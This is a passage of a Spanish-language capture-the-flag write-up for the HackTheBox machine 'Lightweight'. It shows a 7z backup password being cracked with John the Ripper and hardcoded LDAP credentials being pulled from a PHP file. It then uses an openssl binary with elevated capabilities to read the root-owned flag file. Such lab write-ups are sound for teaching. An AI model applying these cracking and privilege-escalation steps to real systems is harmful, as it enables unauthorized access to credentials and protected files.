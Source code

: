 Y luego procedemos a obtener la contraseña del archivo:

```console
root@kali:/home/kali/Documents/HTB/Machines/Lightweight/content# john -w=/usr/share/wordlists/rockyou.txt crack.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip [SHA256 128/128 AVX 4x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 12 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
delete           (backup.7z)
1g 0:00:08:28 DONE (2020-04-16 12:49) 0.001964g/s 4.039p/s 4.039c/s 4.039C/s slimshady..yomama
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Una vez descomprimido el archivo `backup.7z` y vemos que los archivos que tiene son los mismos que están en la página web del servidor `info.php`, `status.php`, `user.php`, `index.php` y `reset.php`.

El archivo `status.php` contiene las credenciales del usuario `ldapuser1`.

```php
$username = 'ldapuser1';
$password = 'f3ca9d298a553da117442deeb6fa932d';
```

Acto seguido, se realiza el login con el usuario `ldapuser1` y la contraseña encontrada en el archivo `status.php`.
`su -l ldapuser1`

Nuevamente revisamos las capabilities que tiene el usuario para revisar qué procesos están corriendo con privilegios.
`getcap -r / 2>/dev/null`

La salida es la siguiente:

```console
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/mtr = cap_net_raw+ep
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/openssl =ep
```
`openssl` tiene la capability `ep` que significa que se puede leer y escribir cualquier cosa en el sistema de archivos. Por lo tanto, se puede leer la flag del root usando la función de codificación base64 en openssl y luego de decodificar el archivo.

```console
[ldapuser1@lightweight ~]$ ./openssl base64 -in /root/root.txt -out ./root.txt.b64
[ldapuser1@lightweight ~]$ ls
capture.pcap  ldapTLS.php  openssl  root.txt.b64  tcpdump
[ldapuser1@lightweight ~]$ base64 -d root.txt.b64 
f1d4e3..........................
```
